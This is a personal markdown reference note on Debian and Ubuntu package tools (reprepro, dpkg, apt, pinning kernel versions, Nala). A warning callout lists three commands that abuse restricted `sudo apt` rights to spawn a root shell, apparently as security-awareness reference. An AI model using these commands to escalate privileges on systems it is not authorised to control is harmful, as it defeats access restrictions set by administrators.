 ```yaml
---
tags:
  - linux
  - linux/Debian
  - linux/Ubuntu
visibility: public
title: Debian
---
```


# Repositories & Packages

<https://wiki.debian.org/DebianRepository/UseThirdParty>

[Package debfoster](https://packages.debian.org/stretch/debfoster) ^272991
> wrapper program for apt and dpkg. When first run, it will ask you which of the installed packages you want to keep installed.
> After that, it maintains a list of packages that you want to have installed on your system. It uses this list to detect packages that have been installed only because other packages depended on them. If one of these dependencies changes, debfoster will take notice, and ask if you want to remove the old package.
> This helps you to maintain a clean Debian install, without old (mainly library) packages lying around that aren't used any more.

### Debian Packages

- Ubuntu 22 changed the required compression for packages. In case of an improperly archived package it might have to be extracted and re-packaged or the proper format requested from the package maintainers.

`reprepro`: produce, manage and sync a local repository of Debian packages

See also [RUG: Jurjen's notes on Debian packages].

```bash
# add package to repository
sudo reprepro \
    --confdir /etc/wraprepro/vhosts.d/<domain>/<mirror>/<os>/<release>/conf/ \
    includedeb <repository-name> \
    <package>
# test what packages would be pulled to target channel
sudo reprepro \
     --confdir /etc/wraprepro/vhosts.d/<domain>/<mirror>/<os>/<release>/conf/ \
     checkpull <target-repository-name>
# actually pull changes to target channel: replace checkpull by pull
```

### dpkg

```bash
# extract package
dpkg -x [-X] <package> <destination>
# compare package versions
dpkg --compare-versions $version1 ne $version2
```

### apt

Tags: #linux/apt

Add repository: add file in `/etc/apt/sources.list.d/` with

```
deb [arch=amd64 signed-by=/usr/share/keyrings/<keyring>] <url> <repository-name> main
```

Install specific version

```bash
sudo apt install package_name=package_version
```

> [!warning]- `sudo apt` vulnerability/exploit to get a root shell
> #tech/vulnerability #tech/exploit [permission escalation with `sudo apt`](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/) ^9f90c9
>
> ```bash
> # Method 1: apt-get update pre-invoke shell
> sudo apt-get update -o APT::Update::Pre-Invoke::= /bin/bash
> # Method 2: start shell from interactive apt-get changelog
> sudo apt-get changelog apt << '#!/bin/sh'
> # Method 3: apt install pre-invoke shell (from file)
> TF=$(mktemp)
echo 'Dpkg::Pre-Invoke {"/bin/sh;false"}' > $TF
sudo apt-get install -c $TF sl
> ```

`apt-get clean`: empty cache (downloaded packages) [Foss](https://itsfoss.com/clear-apt-cache/)
[apt-fast](https://github.com/ilikenwf/apt-fast): shellscript wrapper for apt-get and aptitude that can drastically improve apt download times by downloading packages in parallel, with multiple connections per package

Speed up downloads by using multiple parallel connections: (unofficial) [package `apt-fast`](https://github.com/ilikenwf/apt-fast)

#### Packages

Pin/hold a package version, for example Kernel version (see [Work notes LWP > Puppet > module Kernel Maintenance](obsidian://vault/lwp-docs/lwp/Puppet/modules/kernel_maintenance) and [code](file://git/puppetserver/our-modules/kernel_maintenance/manifests/init.pp))

```bash
apt-mark showhold | grep -q -e '^linux-headers-${pin}' -e '^linux-image-${pin}' -e '^linux-modules-${pin}' -e '^linux-modules-extra-${pin}'
apt-mark hold linux-headers-${pin}-generic linux-image-${pin}-generic linux-modules-${pin}-generic linux-modules-extra-${pin}-generic
```

#### Nala

[Github](https://github.com/volitank/nala) | [![[book.svg]] Wiki](https://gitlab.com/volian/nala/-/wikis/Installation)
> Nala is a front-end for `libapt-pkg`. Specifically we interface using the `python-apt` api.
![|400](https://github.com/volitank/nala/raw/main/imgs/nala-install-2.png)
<https://trendoceans.com/nala-package-manager/>


## References

- [Debian Live Manual][deb-live]
- [Build Debian live image, blog post][blog-live-build]

[deb-live]: <https://live-team.pages.debian.net/live-manual/html/live-manual/toc.en.html>
[blog-live-build]: <https://dquinton.github.io/debian-install/netinstall/live-build.html>